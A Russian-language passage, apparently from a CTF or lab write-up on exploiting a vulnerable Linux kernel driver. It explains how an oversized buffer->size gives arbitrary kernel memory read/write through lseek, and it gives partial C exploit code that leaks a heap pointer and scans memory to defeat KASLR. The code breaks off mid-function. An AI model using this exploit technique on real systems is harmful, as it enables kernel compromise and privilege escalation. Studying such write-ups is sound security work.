 ```c

	if (buffer->pos >= buffer->size)
		buffer->pos = buffer->size - 1;

	return buffer->pos;
}
```

Если `buffer->size` будет равен `0xffffffffffffffff`, то мы сможем поставить `buffer->pos` в любое значение, что позволит нам читать по произвольным адресам памяти. А ещё это даёт нам возможности писать данные по произвольному адресу, потому что логика работы записи тоже основана на значение `buffer->pos`.

Попробуем обойти KASLR и найти адрес загрузки ядра. Для начала поймём, что именно мы можем делать с чтением. 
1. Можно установить размер `buffer->size` таким, что мы сможем устанавливать любой `buffer->pos` через `lseek` на файл
2. Можно читать/писать относительно `buffer->state` который находится на хипе по неизвестному нам адресу

Мы имеем возможность относительного чтения. Значит, чтобы читать конкретный адрес который мы хотим, нам надо узнать относительно какого адреса пишем мы. Чтобы узнать это применим следующую стратегию:
1. Получим адрес указателя `buffer->name` через утечку описанную выше

2. Будем двигать `buffer->pos` вперёд и назад по 8 байт и читать данные в поисках строки "default" которая записывается поле `buffer->name` при открытии драйвера

3. Как только мы найдём эти данные — это будет означать, что мы читаем адрес который мы знаем и отняв/прибавив к нему смещение мы получим адрес относительно которого мы читаем. То есть адрес где лежит `buffer->state`

Реализуем это в коде:
```c
uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    // get buffer->name pointer
    uint64_t leak_name = *(uint64_t*)(buffer + 17);
    printf("{+} heap leak name: 0x%llx\n", leak_name);

    // change size to 0xffffffffffffffff
    lseek(fd, (off_t)511, SEEK_SET);
    uint8_t write_buffer[16] = {0, 0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff, 0, 0, 0, 0, 0, 0, 0};
    write(fd, write_buffer, 16);
    
    uint64_t content_addr = 0x0;

    for (int i = 0; i < 0x10000; i += 8) {
        char tmp_buf[8] = {0};
     
        lseek(fd, (off_t)512 + i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(+): 0x%llx\n", 512 + i);
            content_addr = leak_name - 512 - i;
            break;
        }
```